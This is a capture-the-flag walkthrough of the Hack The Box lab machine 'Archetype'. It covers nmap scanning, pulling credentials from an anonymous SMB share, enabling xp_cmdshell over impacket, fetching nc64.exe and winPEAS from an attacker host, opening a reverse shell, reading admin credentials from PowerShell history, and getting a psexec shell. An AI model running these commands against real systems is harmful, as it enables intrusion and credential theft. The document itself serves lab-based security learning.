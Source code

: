 ```yaml
---
title: Archetype
date: 2022-12-28 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [Network, Protocols, MSSQL, SMB, Impacket, Powershell, Penetration Tester Level 1, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access, Windows]
---
```


<https://app.hackthebox.com/starting-point> Easy hackthebox machine from nmap to root with some impacket and smb.

Start off with an nmap after adding archetype to `/etc/hosts`.

- `nmap -p-` followed by `sudo nmap -sC -sT -sV -O -p135,139,445,1433,5985 archetype.htb -oN nmap_1`

```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-12-29T06:54:24+00:00; 0s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-29T06:47:55
|_Not valid after:  2052-12-29T06:47:55
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T22:54:15-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m00s, deviation: 4h00m01s, median: 0s
| smb2-time: 
|   date: 2022-12-29T06:54:17
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

Port 1433 has an SQL server and we have a SMB share that we can access anonomysly, and grab a file with some credentials for the SQL server.

1. `smbclient -L archetype.htb` to list the shares
2. `smbclient \\\\archetype.htb\\backups` 
3. `dir` to check for files and `get prod.dtsConfig`

Checking this file we see a password and user `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

Lets try to use impackets `mssqlclient.py` to connect

- `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@archetype.htb -windows-auth`

We're connected. We can use `help` and then see that we can execute commands with `xp_cmdshell cmd`. `xp_cmdshell` is disabled by default but no worries we can enable this `enable_xp_cmdshell` and then we are free to run commands. We can upload an `nc64.exe` to the target. Set up a python server on our attaker `python3 -m http.server 80`, and a listener `nc -nvlp 6666`

Download the file to the attacker `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.40/nc64.exe -outfile nc64.exe"` Then we can use it to connect back to our listener: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.40 6666"`

Download winpeas to the target `powershell wget http://10.10.14.40/winPEASx64.exe -outfile winpeas.exe`

- `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

We can see the user creds `administrator:MEGACORP_4dm1n!!`

User flag: `type user.txt` from sql_svc's desktop

With the admin credentials we can use the `psexec.py` took now to gain an admin shell.

- `python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@archetype.htb`

Root flag: login to administrator and check desktop.

